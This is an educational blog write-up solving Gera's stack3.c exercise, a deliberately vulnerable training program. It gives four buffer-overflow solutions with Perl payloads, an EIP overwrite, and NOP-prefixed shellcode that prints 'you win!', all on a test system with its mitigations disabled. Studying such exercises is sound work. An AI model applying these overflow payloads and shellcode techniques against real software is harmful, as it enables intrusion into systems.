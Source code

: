 Gera's Warming Up on Stack #3 - Solutions
==========================================
date: 03/Jan/2013
summary: Solutions for Gera's Warming up on Stack #3 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 3 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #2 - Solutions](https://7h3ram.github.io/posts/20130102_geras-wuos-stack2-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) program:

```c
/* stack3.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020005)
        printf("you win!\n");
}
```

The above program accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message
printed:

-   Solution #1: Overflow the internal `buf` array to overwrite
    `cookie` with 0x01020005
-   Solution #2: Overflow the internal `buf` array to overwrite EIP
    with the address of `printf(you win!)`
-   Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```console
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Overflow the internal buf array to overwrite cookie with 0x01020005
---------------------------------------------------------------------------------

Here's the GCC commandline to prepare [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) for this solution:

```console
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack3 stack3.c
stack3.c: In function ‘main’:
stack3.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccuoj5F5.o: In function `main':
stack3.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html):

```console
# perl -e 'print "A"x80 . "\x05\x00\x02\x01"' | ./stack3
buf: bfd625a4 cookie: bfd625f4
you win!
```

Solution #2: Overflow the internal buf array to overwrite EIP with the address of printf(you win!)
---------------------------------------------------------------------------------------------------

We need to have a look at the assembly of [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and find out the location of the `printf` function which displays the `you win!` message:

```console
# objdump -d -M intel stack3 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 <printf@plt>
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 <gets@plt>
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 00 02 01          cmp    eax,0x1020005
 8048477:   75 0c                   jne    8048485 <main+0x41>
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 <puts@plt>
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```console
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack3
buf: bfb82e64 cookie: bfb82eb4
you win!
Segmentation fault
```

Solution #3: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Let's first recompile [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```console
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack3 stack3.c 2>/dev/null ; readelf -l stack3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```console
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!#
```

Solution #4: Inject a NOP-prefixed printf(you win!) shellcode through an environment var overwrite EIP with its address
------------------------------------------------------------------------------------------------------------------------

Lets get straight to exploitation:

```console
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack3
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
